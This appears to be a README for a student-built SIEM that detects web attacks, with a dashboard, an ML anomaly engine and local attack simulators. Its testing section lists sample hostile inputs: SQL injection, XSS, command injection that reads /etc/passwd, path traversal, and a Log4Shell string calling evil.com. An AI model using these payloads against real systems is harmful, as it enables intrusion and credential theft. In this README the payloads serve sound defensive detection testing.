




<div align="center">


<p>
  
  
  
  
</p>

<p>
  
  
  
  
</p>

<br/>

> A full-stack Enterprise SIEM system with real-time threat detection, AI-powered anomaly analysis,
> an automated firewall, and a cinematic SOC dashboard — engineered for defensive security research.

<br/>

</div>

---

## Dashboard Preview

<div align="center">
  
  <p><i>Main SOC Dashboard — Real-time threat telemetry, stat cards, and world map tracking</i></p>
</div>

<br/>

<div align="center">
  
  <p><i>Mass DDoS Botnet Attack — 30 concurrent threads firing mixed payloads against SENTINEL</i></p>
</div>

<br/>

<div align="center">
  
  <p><i>Critical Alert State — Dashboard after a sustained attack campaign triggers system lockdown</i></p>
</div>

---

## System Architecture



---

## Features

**Detection Engine**
- 8 attack vectors — SQL Injection, XSS, Command Injection, Path Traversal, SSRF, Log4Shell, XXE, Brute Force
- 47 compiled regex signatures across all categories with cumulative risk scoring
- Honeypot traps on 6 fake endpoints that auto-block any probing source with zero false positives
- Signature and ML anomaly detection running in parallel on every request

**AI Anomaly Engine**
- IsolationForest unsupervised ML model — n_estimators=150, contamination=0.08
- 3-feature input vector: risk score, threat flag, payload length — standardized via StandardScaler
- Rate-based behavioral detection — 25 requests per minute per source IP triggers auto-block
- Synthetic baseline training on fresh install eliminates the cold-start problem

**SOAR Firewall**
- Auto-block on CRITICAL severity events, system lockdown on threshold breach
- Persistent blocklist survives server restarts via banned_ips.json
- Manual block and unblock controls directly from the SOC dashboard
- One-click restore to lift lockdown and reset all counters

**SOC Dashboard**
- Real-time Chart.js line chart showing threats vs safe traffic over time
- Geo-accurate world map with animated attack origin dots per detection
- Toast notification system — instant popup on every new threat event
- Analytics tab — attack type donut chart, severity bar chart, session summary
- CSV and JSON export for offline forensic analysis

**Website Integration**
- WSGI middleware — single-line integration into any Flask or Django application
- Non-blocking background threads — zero latency impact on the protected application
- Built-in demo website on port 5050 with pre-wired attack test forms
- POST body scanning — form data and JSON payloads both analyzed

**Attack Simulators**
- Injection tool — SQL, XSS, Log4Shell, Path Traversal payloads against login endpoint
- Mass DDoS botnet — 30 concurrent threads with per-request random IP spoofing
- Safe traffic generator — clean legitimate requests to build a detection baseline

---

## Quick Start

**Prerequisites**
```
Python 3.10 or above
Windows 10 / 11
"Add Python to PATH" must be checked during Python installation
```

**Installation**
```bash
git clone https://github.com/abhaystic/SENTINEL_SIEM.git
cd SENTINEL_SIEM
```

Double-click `setup.bat` — installs all dependencies automatically.

Double-click `run.bat` — the dashboard opens at `http://localhost:5000`.

---

## Control Panel

`run.bat` is the single entry point for the entire system:

```
============================================================
  SENTINEL SIEM  |  Control Panel
  Engineered by Abhay Singh Taknet
============================================================

  [1]  Start SENTINEL SIEM System
  [2]  Launch Attack Simulator
  [3]  Launch Demo Website  (port 5050)
  [4]  Stop All
  [5]  Exit

============================================================
```

| Option | Action |
|--------|--------|
| 1 — Start System | Launches main server on port 5000 and Client Portal on port 5001, opens browser |
| 2 — Attack Simulator | Sub-menu for injection attacks, mass DDoS botnet, safe traffic generator |
| 3 — Demo Website | Starts integration demo site on port 5050 for live middleware testing |
| 4 — Stop All | Kills all Python processes, closes all terminals, releases all ports |

---

## Website Integration

**Single-line middleware — drop into any Flask project:**

```python
from integration.sentinel_middleware import SentinelMiddleware

app = Flask(__name__)
# your existing routes below
app.wsgi_app = SentinelMiddleware(app.wsgi_app)
```

Every HTTP request to your application is now scanned by SENTINEL in a background thread — no latency impact, no architectural changes required.

**Testing with the built-in demo site:**

```
run.bat  ->  [1] Start SENTINEL  ->  [3] Launch Demo Website
```

Open `http://localhost:5050`, submit payloads in the login form, and watch `http://localhost:5000` react in real time.

---

## Honeypot Endpoints

Any HTTP request to these paths immediately blocks the source IP regardless of payload content:

```
/.env             /phpmyadmin       /admin_bypass
/db_backup.zip    /secret_keys      /wp-admin
```

---

## API Reference

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/` | GET | SOC Dashboard |
| `/api/logs` | GET | Fetch all logs for dashboard polling |
| `/api/logs` | POST | Submit payload for analysis — API key required |
| `/api/get_stats` | GET | CPU, RAM, disk and threat counters |
| `/api/analytics` | GET | Severity breakdown and hourly activity |
| `/api/block_ip` | POST | Manual IP block |
| `/api/unblock_ip` | POST | Manual IP unblock |
| `/api/restore_system` | POST | Lift lockdown and reset counters |
| `/api/export_csv` | GET | Download all session logs as CSV |
| `/api/export_threats_csv` | GET | Download threats-only as CSV |
| `/api/attack_stats` | GET | Attack type breakdown and session summary |
| `/api/clear_logs` | POST | Clear in-memory session logs |
| `/view_secrets` | GET | Vault — returns 403 during lockdown |

---

## Project Structure

```
SENTINEL_SIEM/
|
+-- app.py                                   Main Flask server
+-- run.bat                                  One-click control panel
+-- setup.bat                                One-click dependency installer
+-- requirements.txt
+-- README.md
|
+-- core/
|   +-- ai_engine.py                         IsolationForest ML model and rate limiter
|   +-- detection.py                         Signature-based detection — 8 attack types
|   +-- database.py                          Thread-safe SQLite wrapper
|   +-- firewall.py                          IP blocklist management
|   +-- reporter.py                          CSV / JSON export and analytics
|
+-- templates/
|   +-- dashboard.html                       SOC dashboard — HTML / CSS / JS
|
+-- attacks/
|   +-- injection_tool.py                    SQL + XSS + Honeypot attack simulator
|   +-- mass_attacker.py                     30-thread DDoS botnet simulator
|   +-- safe_traffic_gen.py                  Legitimate traffic generator
|
+-- integration/
|   +-- sentinel_middleware.py               WSGI middleware for Flask / Django
|   +-- example_site/
|       +-- site_app.py                      Demo website on port 5050
|
+-- Client_Portal/
|   +-- portal_app.py                        Simulated client-facing web portal
|
+-- images/
|   +-- dashboard.png                        Main SOC dashboard screenshot
|   +-- ddos.png                             Mass DDoS attack simulation screenshot
|   +-- critical_dashboard.png               Critical alert and lockdown state screenshot
|
+-- userguide & research/
|   +-- SENTINEL_SIEM_Research_Paper.pdf     Technical research paper
|   +-- SENTINEL_SIEM_User_Guide.pdf         Complete user and deployment guide
|
+-- logs/
|   +-- banned_ips.json                      Persistent IP blocklist
|   +-- threat_events.txt                    Flat threat event log
|   +-- safe_logs.txt                        Flat safe traffic log
|
+-- db/
|   +-- sentinel.db                          SQLite database — auto-created on first run
|
+-- exports/                                 CSV / JSON reports generated on demand
+-- secure_data/
    +-- company_secrets.txt                  Vault contents — sealed during lockdown
```

---

## Attack Testing Reference

After starting the demo site via `run.bat`, try these payloads in the login form at `http://localhost:5050`:

```
SQL Injection
    admin' OR '1'='1
    ' UNION SELECT null, null--
    1; DROP TABLE users--

XSS
    <script>alert('SENTINEL')</script>
    

Command Injection
    admin; cat /etc/passwd
    | whoami

Log4Shell   (CRITICAL — triggers instant lockdown)
    ${jndi:ldap://evil.com/exploit}

Path Traversal
    ../../../../etc/passwd
```

Each payload produces a detection event — threat feed updates, map dot animates, toast fires, IP is blocked.

---

## Documentation

| Document | Description |
|----------|-------------|
| [SENTINEL\_SIEM\_Research\_Paper.pdf](userguide%20%26%20research/SENTINEL_SIEM_Research_Paper.pdf) | IEEE-format technical paper — architecture, detection methodology, AI engine design, evaluation results |
| [SENTINEL\_SIEM\_User\_Guide.pdf](userguide%20%26%20research/SENTINEL_SIEM_User_Guide.pdf) | Complete user guide — setup, usage, attack simulation, integration, and troubleshooting |

---

## Tech Stack

| Layer | Technology |
|-------|------------|
| Backend | Python 3.10+, Flask 2.3+ |
| ML Engine | scikit-learn — IsolationForest, StandardScaler |
| Data Processing | NumPy, Pandas |
| Database | SQLite3 — thread-safe WAL mode |
| Frontend | HTML / CSS / JavaScript, Chart.js, Tailwind CSS |
| System Metrics | psutil |
| HTTP Client | requests |
| Process Control | Windows BAT, PowerShell |

---

## Disclaimer

SENTINEL SIEM is built strictly for defensive security research, academic study, and authorized penetration testing in controlled environments. The included attack simulators are designed solely to test the detection engine against a local setup.

Do not use any component of this project against systems you do not own or have explicit written permission to test.

---

## License

MIT License — see LICENSE for details.

---

<div align="center">


<br/>

**Engineered by Abhay Singh Taknet**

B.Tech Computer Science and Engineering
Sobhasaria Group of Institutions, Sikar — Bikaner Technical University
Roll No. 22ESGCS006 | Session 2025–2026

<br/>

<a href="https://www.linkedin.com/in/abhay-singh-551aa6325">
  
</a>
&nbsp;
<a href="mailto:abhaytaknet@gmail.com">
  
</a>
&nbsp;
<a href="https://github.com/abhaystic/SENTINEL_SIEM">
  
</a>

<br/><br/>

</div>